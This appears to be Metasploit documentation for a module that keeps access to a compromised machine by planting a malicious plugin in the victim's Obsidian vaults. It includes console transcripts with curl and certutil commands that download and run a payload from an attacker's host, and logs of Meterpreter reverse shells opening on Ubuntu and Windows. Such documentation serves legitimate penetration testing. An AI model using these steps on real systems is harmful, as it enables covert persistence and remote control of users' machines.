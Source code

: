 ## Vulnerable Application

This module searches for Obsidian vaults for a user, and uploads a malicious
community plugin to the vault. The vaults must be opened with community
plugins enabled (NOT restricted mode), but the plugin will be enabled
automatically.

Tested against Obsidian 1.7.7 on Kali, Ubuntu 22.04, and Windows 10.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get a user shell on the target
4. Do: `use multi/local/obsidian_plugin_persistence`
5. Do: Select a shell which will work on your target OS
6. Do: `run`
7. You should get a shell when the target user opens the vault without restricted mode.

## Options

### NAME

Name of the plugin. Defaults to being randomly generated.

### USER

The user to target. Defaults the user the shell was obtained under.

## Scenarios

### Version and OS

Get a user shell.

```
msf6 exploit(multi/script/web_delivery) > use exploit/multi/local/obsidian_plugin_persistence
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/local/obsidian_plugin_persistence) > set session 1
session => 1
msf6 exploit(multi/local/obsidian_plugin_persistence) > set verbose true
verbose => true
msf6 exploit(multi/local/obsidian_plugin_persistence) > exploit

[*] Command to run on remote host: curl -so ./HvxtaAdZVc http://1.1.1.1:8080/aZRe4yWUN3U2-lDtdsaGlA; chmod +x ./HvxtaAdZVc; ./HvxtaAdZVc &
[*] Fetch handler listening on 1.1.1.1:8080
[*] HTTP server started
[*] Adding resource /aZRe4yWUN3U2-lDtdsaGlA
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using plugin name: xQem
[*] Target User: ubuntu
[*] Found user obsidian file: /home/ubuntu/.config/obsidian/obsidian.json
[+] Found open vault 83ca6e5734f5dfc4: /home/ubuntu/Documents/test
[*] Uploading plugin to vault /home/ubuntu/Documents/test
[*] Uploading: /home/ubuntu/Documents/test/.obsidian/plugins/xQem/main.js
[*] Uploading: /home/ubuntu/Documents/test/.obsidian/plugins/xQem/manifest.json
[*] Found 1 enabled community plugins (sX2sv4)
[*] adding xQem to the enabled community plugins list
[+] Plugin enabled, waiting for Obsidian to open the vault and execute the plugin.
[*] Client 2.2.2.2 requested /aZRe4yWUN3U2-lDtdsaGlA
[*] Sending payload to 2.2.2.2 (curl/7.81.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49192) at 2024-12-05 10:19:32 -0500

meterpreter > getuid
Server username: ubuntu
meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 22.04 (Linux 5.15.0-60-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Obsidian 1.7.7 on Windows 10

```

msf6 exploit(multi/local/obsidian_plugin_persistence) > rexploit
[*] Reloading module...

[*] Command to run on remote host: certutil -urlcache -f http://1.1.1.1:8080/bXCLrS0dWKPwEfygT3FJNA %TEMP%\FDTcKUuwF.exe & start /B %TEMP%\FDTcKUuwF.exe
[*] Fetch handler listening on 1.1.1.1:8080
[*] HTTP server started
[*] Adding resource /bXCLrS0dWKPwEfygT3FJNA
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using plugin name: pPq0K
[*] Target User: h00die
[*] Found user obsidian file: C:\Users\h00die\AppData\Roaming\obsidian\obsidian.json
[+] Found open vault 69172dadc065de73: C:\Users\h00die\Documents\vault
[*] Uploading plugin to vault C:\Users\h00die\Documents\vault
[*] Uploading: C:\Users\h00die\Documents\vault/.obsidian/plugins/pPq0K/main.js
[*] Uploading: C:\Users\h00die\Documents\vault/.obsidian/plugins/pPq0K/manifest.json
[*] Found 0 enabled community plugins ()
[*] adding pPq0K to the enabled community plugins list
[+] Plugin enabled, waiting for Obsidian to open the vault and execute the plugin.
[*] Client 3.3.3.3 requested /bXCLrS0dWKPwEfygT3FJNA
[*] Sending payload to 3.3.3.3 (Microsoft-CryptoAPI/10.0)
[*] Client 3.3.3.3 requested /bXCLrS0dWKPwEfygT3FJNA
[*] Sending payload to 3.3.3.3 (CertUtil URL Agent)
[*] Meterpreter session 7 opened (1.1.1.1:4444 -> 3.3.3.3:51369) at 2024-12-05 09:24:24 -0500

meterpreter > getuid
Server username: DESKTOP-3ASD0R4\h00die
meterpreter > sysinfo
Computer        : DESKTOP-3ASD0R4
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > 
```
